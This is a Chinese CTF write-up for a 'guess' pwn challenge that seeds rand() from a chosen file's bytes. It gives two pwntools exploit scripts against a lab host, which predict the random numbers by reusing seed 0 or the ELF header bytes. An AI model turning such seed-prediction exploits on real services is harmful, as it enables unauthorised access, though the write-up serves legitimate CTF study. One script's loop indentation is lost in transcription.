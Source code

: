 题目的难点在我们不知道靶机上有啥文件，但是这同样也存在一个漏洞。

#### 非预期解：

随意输入一个文件名，因为不存在这个文件，所以打开文件失败，随机数种子是初始值 0，这样每次生成的随机数都是同样的，是一个固定值，利用 **在相同libc库下由相同的随机数种子生成的随机数相同** 这个点，我们可以很轻松''猜''出四次 '随机数'。

EXP：

```python
from pwn import *
from ctypes import *

context.log_level = "debug"

p = remote("172.16.68.4", 10006)
#p = process("./guess")
#elf = cdll.LoadLibrary('./x64_libc.so.6')
elf = cdll.LoadLibrary('/lib/x86_64-linux-gnu/libc.so.6')

payload = '0.txt'
p.sendafter('First of all, choose a file you like it.\n',payload)

elf.srand(0)
for i in range(4):
payload = str(elf.rand())
p.sendlineafter("number:",payload)

p.interactive()
```

#### 正常解：

目前我们可以确定在目标靶机上的文件就是这个 **guess程序本身** ，而guess程序是一个 **ELF文件** ，它的前四个字节是一个固定值：**0x7F454C46** ，接下来利用 **在相同libc库下由相同的随机数种子生成的随机数相同** 这个点模拟播种，生成随机数就好了。

![image-20211123195011368](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-549a406d46e2448758018c46ec74968f6681c310.png)

EXP：

```python
from pwn import *
from ctypes import *

context.log_level = "debug"

p = remote("172.16.68.4", 10006)
#p = process("./guess")
#elf = cdll.LoadLibrary('./x64_libc.so.6')
elf = cdll.LoadLibrary('/lib/x86_64-linux-gnu/libc.so.6')

payload = 'guess'
p.sendafter('First of all, choose a file you like it.\n',payload)

key = "7F454C46"
for i in range(0,8,2):
    elf.srand(int(key[i:i+2],16))
    payload = str(elf.rand())
    p.sendlineafter("number:",payload)

p.interactive()
```
